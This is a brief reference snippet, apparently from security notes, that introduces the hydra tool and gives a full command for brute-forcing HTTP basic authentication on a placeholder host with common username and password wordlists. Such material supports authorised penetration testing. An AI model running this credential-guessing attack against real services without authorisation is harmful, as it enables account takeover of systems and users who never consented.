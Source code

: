 [hydra](https://github.com/vanhauser-thc/thc-hydra) is a CLI (and GUI) tool for cracking the authentication of a service.

HTTP basic authentication:

```
hydra -t 16 -s 443 -S \
-m https://{$FQDN}/ ${FQDN} https-get \
-L github/SecLists/Usernames/top-usernames-shortlist.txt \
-P github/SecLists/Passwords/Common-Credentials/500-worst-passwords.txt
```
